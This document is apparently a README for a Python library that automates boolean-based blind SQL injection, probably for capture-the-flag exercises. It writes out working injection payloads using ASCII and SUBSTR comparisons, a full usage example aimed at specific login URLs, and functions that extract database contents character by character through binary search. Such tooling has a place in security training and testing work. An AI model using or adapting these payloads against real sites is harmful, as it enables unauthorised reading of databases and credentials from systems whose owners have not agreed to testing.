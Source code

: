 A blind SQLi payload may like as:  
`index.php?title=a' AND ASCII(SUBSTR((SELECT flag FROM iamflag LIMIT 0,1), $index, 1)) >= $guess`

The function binsearch() will replace $index and $guess to a concrete number, then guess the result.  
NOTICE: The expression must compare by ">=". Otherwise, binary search will suffer errors.

We must define some variable:
- target : A normal url and parameter that we want to inject.
    ex: "http://sqli.tw/index.php?title=test"
- payload : Our SQLi query with $cond variable, you should escape special character by html encode if necessary.
    ex: "' [OR|AND] $cond [#|--]"
- condition(cond) : The boolean expression in SQL semetic with $guess and $index(optional) varaible.
    ex: "ASCII(SUBSTR((SELECT flag FROM iamflag LIMIT 0,1), $index, 1)) >= $guess"
- msg : The response from target if our query is true.
    ex: "Login Success"

Then we declare a BooleanBased object, and dump databases.  
```
b = BooleanBased(payload, cond, msg, target = target)
print b.guess_ascii(40, verbose = True)
```

The full example:  
```
payload = "' OR $cond#"
payload = ulib.quote(payload).replace("%24", "$")
msg = "Login Success"
target = "http://tor.atdog.tw:8080/boolean/login.php?u=admin\&p="
cond = "ASCII(SUBSTR((SELECT flag FROM iamflag LIMIT 0,1), $index, 1)) >= $guess"
cond = ulib.quote(cond).replace("%24", "$")
b = BooleanBased(payload, cond, msg, debug=False, target = target)
print b.guess_ascii(40, verbose = True)
```

- guess\_length(minlen, maxlen):
    - minlen: The lower bound of the data length.
    - maxlen: The upper bound of teh data length.
    Guess the data length.  
- guess\_text(length, verbose):
    - length: The length of the data.
    - verbose: if verbosd is false, the process won't show on monitor.
    Guess the data, if comparing the character directly in qeury.  
- guess\_ascii(length, verbose):
    - length: The length of the data.
    - verbose: if verbosd is false, the process won't show on monitor.
    Guess the data, if comparing the charecter by ascii value.  

